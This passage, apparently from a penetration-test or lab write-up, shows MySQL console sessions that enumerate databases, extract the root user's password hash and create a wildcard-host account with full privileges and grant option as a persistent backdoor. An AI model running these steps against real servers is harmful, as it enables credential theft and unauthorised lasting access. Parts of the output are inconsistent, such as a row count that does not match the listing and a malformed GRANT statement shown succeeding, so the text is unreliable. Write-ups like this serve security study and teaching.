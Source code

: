 ```bash
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> USE mysql;
Database changed

mysql> SHOW TABLES;
+------------------------------------------------------+
| Tables_in_mysql                                      |
+------------------------------------------------------+
| columns_priv                                         |
| component                                            |
| db                                                   |
| default_roles                                        |
| engine_cost                                          |
| ...                                                  |
| user                                                 |
+------------------------------------------------------+
37 rows in set (0.00 sec)
```

### 10.3 **User Credentials Analysis**

```bash
mysql> SELECT user, authentication_string FROM user WHERE user = 'root';
+------+-------------------------------------------------------------------------+
| user | authentication_string                                                   |
+------+-------------------------------------------------------------------------+
| root | $A$005$THISISASECRETPASSWORDWHICHICANNOTTELLYOUC.6JZ3TRsyLw9BvgGQb.KUk0 |
+------+-------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

### 10.4 **Persistent Access Creation**

A new MySQL user with full privileges was created to maintain persistent access:

```bash
mysql> CREATE USER 'fancyname'@'%' IDENTIFIED BY 'fancyname';
Query OK, 0 rows affected (0.01 sec)

mysql> GRANT ALL PRIVILEGES  IDENTIFIED BY 'fancyname';
Query OK, 0 rows affected (0.01 sec)

mysql> GRANT ALL PRIVILEGES ON *.* TO 'fancyname'@'%' WITH GRANT OPTION;
Query OK, 0 rows affected (0.01 sec)

mysql> FLUSH PRIVILEGES;
Query OK, 0 rows affected (0.01 sec)

mysql> EXIT
Bye
```
